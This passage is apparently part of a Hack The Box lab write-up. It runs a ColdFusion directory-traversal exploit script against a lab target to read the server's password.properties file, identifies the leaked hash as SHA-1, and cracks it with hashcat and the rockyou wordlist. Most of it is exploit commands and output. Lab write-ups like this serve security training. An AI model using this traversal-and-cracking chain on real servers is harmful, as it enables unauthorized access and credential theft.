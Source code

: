 Let's run the code.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

The password looks like a hash not a plaintext.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Using `hash-identifier`, I figured out that the hash algorithm is `SHA-1`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 100 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 byteDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 2f635f6d20e3fde0c53075a84b68fb07dcec9b03
Time.Started.....: Tue Jan 21 12:17:14 2025 (0 secs)
Time.Estimated...: Tue Jan 21 12:17:14 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
```